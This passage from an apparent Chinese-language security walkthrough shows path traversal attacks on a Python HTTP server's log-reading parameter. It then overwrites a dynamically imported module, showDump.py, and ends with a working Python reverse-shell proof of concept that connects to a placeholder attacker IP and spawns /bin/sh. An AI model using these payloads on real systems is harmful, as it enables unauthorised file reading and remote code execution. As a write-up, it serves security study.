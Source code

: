 例二：`log.g1` 文件存在，但不是目录

```python
server_path = '/home/dev/'
logName = 'g1/../../../../../../etc/hosts'
filename = server_path + 'log/log.' + logName
open(filename)

Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
IOError: [Errno 20] Not a directory: '/home/dev/log/log.g1/../../../../../../etc/hosts'
```

例三：成功

```python
server_path = '/home/dev/'
logName = '../../../../../etc/hosts'
filename = server_path + 'log/' + logName
open(filename)

<open file '/home/dev/log/../../../../../etc/hosts', mode 'r' at 0x7f82f4cfa660>
```

那么有没办法创建 `log.xxx` 目录呢？

目录是在 `/home/dev` 下，没有写权限...

还有就是即使这里可以使用 `../` 的方式，细看一下代码，发现是以  `tail -f -n 0 `  的方式读取文件内容，然后输出到页面，所以只能读取到新写入的文件内容。

## 覆盖py文件

如果是修改 `httpServer.py` ，然后上传覆盖原有文件呢？

But，并不行，因为代码已经载入内存了，要想让修改后的新代码生效，需要重启 server。

想到覆盖文件，之前 ` /show_dump` 接口中会从 `showDump.py` 文件 import 函数并执行，与顶层import 的只载入一次不同，这里每次访问接口都会重新从 `showDump.py` 文件中 import `show_dump` 函数，也就是说，我们可以通过上传覆盖这个文件，只要保持 `show_dump` 函数的定义不变，函数内可以执行我们任意的 python代码

```python
from showDump import show_dump
show_dump('hello', 'world')
```

反弹 POC

```python
# -*- coding: utf-8 -*-
import os
import socket
import subprocess

ip = "your ip"
port = 12345


def show_dump(dumpWorkDir, dumpfile):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
    s.connect((ip, 12345));
    os.dup2(s.fileno(), 0);
    os.dup2(s.fileno(), 1);
    os.dup2(s.fileno(), 2);
    p = subprocess.call(["/bin/sh", "-i"]);
```
